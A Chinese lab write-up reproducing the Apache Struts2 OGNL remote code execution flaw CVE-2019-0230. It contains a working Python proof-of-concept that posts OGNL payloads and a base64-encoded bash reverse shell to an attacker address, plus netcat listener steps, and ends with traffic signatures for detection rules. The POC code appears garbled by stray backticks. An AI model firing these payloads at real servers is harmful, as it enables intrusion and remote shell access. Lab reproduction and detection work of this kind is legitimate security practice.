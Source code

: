 # 一、简介

2020年08月13日，Apache官方发布了Struts2远程代码执行漏洞的风险通告，该漏洞编号为CVE-2019-0230，漏洞等级：高危，漏洞评分：8.5

# 二、漏洞描述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

 

漏洞产生的主要原因是因为Apache Struts框架在强制执行时，会对分配给某些标签属性(如id)的属性值执行二次ognl解析。攻击者可以通过构造恶意的OGNL表达式，并将其设置到可被外部输入进行修改，且会执行OGNL表达式的Struts2标签的属性值，引发OGNL表达式解析，最终造成远程代码执行的影响。

# 三、影响版本

```
Struts 2.0.0 – Struts 2.5.20
```

 

# 四、漏洞复现

## （1）漏洞环境

攻击机：192.168.1.129

靶机：  192.168.1.12

这里使用vulhub，很方便。

```
docker-compose up -d
```

启动环境之后访问http://your-ip:8080

![image.png](Struts2-059.assets/1627364327501662.jpg)

（2）漏洞验证

由于该漏洞是存在解析漏洞，也就是对于用户提交的数据进行了二次处理。

从而攻击者对输入的内容进行特意构造，然后实现攻击成。

URL `http://192.168.1.12:8080/?id=%25{2*3}` 

![image.png](Struts2-059.assets/1627364327661534.jpg)

（3）漏洞复现

**构造POC**

用来反弹shell

这里要修改两个地方：

1.靶机IP

192.168.1.12

2.攻击机IP反弹shell base64编码

bash -i >& /dev/tcp/192.168.1.129/6666 0>&1

 

```
import` `requests``url ``=` `"http://192.168.1.12:8080"``data1 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"``}``data2 ``=` `{``  ``"id"``: ``"%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c  {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTIvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}'))}"``}``res1 ``=` `requests.post(url, data``=``data1)``res2 ``=` `requests.post(url, data``=``data2)
```

　　

1.监听端口

```
nc -lvvp 6666
```

2.运行脚本

```
python3 payload.py
```

3.反弹shell

![image.png](Struts2-059.assets/1627364327766242.jpg)

# 五、漏洞分析

攻击的时候抓取数据包

![image.png](Struts2-059.assets/1627364328072574.jpg)

![image.png](Struts2-059.assets/1627364328313191.jpg)

# 六、特征提取

从攻击数据包里可以很清楚的看到，攻击者通过id值=xxx，来传入恶意的payload，

其中 %25是 % ，%7B是{，%7D是}

而请求包中包含payload，例如suricata规则中可以用content来匹配。

我们还是先对发送包进行URL解码:

```
id``=%{(``#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}
```

　

```
这样就很清晰了，可以得到双向规则，来防护这个漏洞的攻击。
```

| 特征              | 说明             |
| ----------------- | ---------------- |
| POST方式          | http.method=POST |
| 状态码 200        |                  |
| 请求头 包含 %     |                  |
| 请求头 包含  {    |                  |
| 请求头 包含  }    |                  |
| 请求头包含payload |                  |
| 响应头包含payload |                  |